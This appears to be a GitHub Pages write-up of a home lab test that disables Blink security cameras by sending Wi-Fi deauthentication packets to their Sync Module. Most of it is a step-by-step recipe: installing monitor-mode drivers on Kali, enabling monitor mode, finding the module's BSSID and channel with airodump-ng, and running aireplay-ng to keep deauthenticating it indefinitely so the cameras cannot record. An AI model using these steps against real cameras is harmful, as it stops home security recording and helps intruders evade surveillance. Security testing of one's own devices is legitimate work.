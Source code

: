 ```yaml
---
layout: default
---
```

[Back](./)

## Disrupt IP Camera
In this test I wanted to see if Blink cameras are vulnerable to jamming and cause them to not record. The diagram of how the Deauth attack will take place is below. Once we find out the Mac address of the Sync Module we can send deauth packets at it using Airmon-ng and for the duration of the attack non of the cameras will be able to record or save its recordings.
![deauth](./assets/BlinkInfra.png)

### Requirments 
- Kali (Running in Virtualbox)
- Network adapter that can run on monitor mode. (Using Alpha AC1200)
> Followed these steps to install drivers
> 1. Update Repository
> `sudo apt upgrade -y`
> `sudo apt dist-upgrade -y`
> 2. Reboot the VM
> `sudo apt install realtek-rtl88xxau-dkms`
> `git clone [https://github.com/aircrack-ng/rtl8812au`
> `cd rtl8812au/ `
> `make`
> `sudo make install`

### Setup 
You'll need the BSSID of the Blink Sync Module, I am on the same network and Identiffied the IP and MAC of it. Blink is a Amazon product so looking up this mac address brings back this info,
[Mac Address Lookup Site](https://maclookup.app)
**Amazon Technologies Inc.**
You can also use AngryIPScanner
![IP](./assets/Scanned_IP.png)

### Enable monitor mode 
1. Check for conflicting proccesses 
`airmon-ng check kill`
2. Start the adapter in monitor mode
`sudo airmon-ng start wlan0`
![Monitor](./assets/MonitorMode.png)

### Find target 
1. Run `airodump-ng -w output_scan wlan0`
> Looking in the *STATION* section for the Mac address, we can match the corrisponding **ESSID**, to find it easier we can output to a file using -w argument. Open the output file.
![BSSID](./assets/BSSID.png)
2. Locate the channel 
> By checking the top part of the output and match the newley found BSSID. 
![SSID](./assets/SSID.png)
3. Gathered info so far:

| HOSTNAME| IP|MAC |  BSSID | CH |
| ---- | ----- | ----| ---| --- |
|blink-sync-module | 192.168.1.154| 74:EC:B2:41:4B:61| E8:9F:80:12:5C:77 | 11 |

### Attack target
1. Switch channel `sudo iwconfig wlan0 channel 11`
2. Send Deauth packets `sudo aireplay-ng -0 0 -a E8:9F:80:12:5C:77 wlan0`
> This will continuasly block the packets using the '0' argument but we can set a timer for how many packets are being sent.
